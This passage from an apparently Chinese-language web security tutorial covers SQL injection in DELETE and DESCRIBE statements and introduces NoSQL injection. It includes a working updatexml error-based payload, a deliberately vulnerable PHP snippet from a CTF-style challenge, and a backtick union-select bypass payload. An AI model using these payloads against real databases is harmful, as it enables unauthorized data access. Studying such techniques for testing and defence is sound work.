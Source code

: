 #### [](#1342-delete-%E6%8A%A5%E9%94%99)13.4.2 DELETE 报错

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>delete from wp_user_ where id=21 and updatexml(1,concat(0x7e,database()),1)<br>``` |

### [](#135-descibe-%E6%B3%A8%E5%85%A5)13.5 DESCIBE 注入

> {DESCRIBE | DESC} table\_name \[col\_name | wild\]
> 
> DESCRIBE 提供有关一个表的列信息。col\_name 可以是一个列名或是一个包含 SQL 通配符字符 `%`和 `_` 的字符串。

源代码：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```php<br><?php<br>require("config.php");<br>$table = $_GET['table']?$_GET['table']:"test";<br>$table = Filter($table);<br>mysqli_query($mysqli,"desc `secret_{$table}`") or Hacker();<br>$sql = "select 'flag{xxx}' from secret_{$table}";<br>$ret = sql_query($sql);<br>echo $ret[0];<br>?><br>``` |

desc 可以接受两个参数，可以过掉第一个检测。

反引号在 union select 中可以当做空格。

payload:

?table=test\`\` union select database() limit 1 offset 1

## [](#14-nosql-%E6%B3%A8%E5%85%A5)14 NoSQL 注入

### [](#141-%E5%AE%9A%E4%B9%89)14.1 定义

泛指非关系型的数据库。随着互联网 web2.0 网站的兴起，在高可用，高并发压力下，传统数据库已经不能满足需求，用于解决大数据应用和超大规模数据存储的问题。

主要代表：MongDB、Redis、Memcache

以 MongDB 为例，它是一个面向文档存储的数据库，以键值对形式存在

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```json<br>{<br>  name: "Geekby",<br>  age: 26,<br>  status: "A",<br>  groups: ["news", "sports"]<br>}<br>``` |

### [](#142-%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86%E4%B8%80)14.2 注入原理一

1.  基本语法

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108091831.png-water_print](assets/1699411534-2815213944757847118b2d1e4aae45f1.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210108091831.png-water_print")
